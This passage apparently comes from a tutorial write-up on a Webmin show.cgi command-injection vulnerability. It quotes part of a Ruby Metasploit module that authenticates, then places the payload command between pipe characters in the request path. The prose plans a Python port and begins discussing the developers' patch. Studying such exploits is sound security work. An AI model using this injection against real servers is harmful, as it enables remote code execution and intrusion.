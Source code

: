 ```ruby
			session = res.headers['Set-Cookie'].scan(/sid\=(\w+)\;*/).flatten[0] || ''
			if session and not session.empty?
				print_good "#{peer} - Authentication successfully"
			else
				print_error "#{peer} - Authentication failed"
				return
			end
			print_good "#{peer} - Authentication successfully"
		else
			print_error "#{peer} - Authentication failed"
			return
		end

		print_status("#{peer} - Attempting to execute the payload...")

		command = payload.encoded

		res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)


		if res and res.code == 200 and res.message =~ /Document follows/
			print_good "#{peer} - Payload executed successfully"
		else
			print_error "#{peer} - Error executing the payload"
			return
		end

	end

end
```  

I mean, basically the code sets some request headers, a cookie, and a body and sends a POST request. Once authenticated via the session id, the script sends another POST request to a different endpoint, which gives an attacker remote code execution. Our task is to rewrite this in Python.  

## **Understand the patch that was applied by the devs to mitigate this vulneratbility**

**The exploit patch on github**  
https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213  

**ChatGPT's explanation of the patch**  

file/lang/en:  
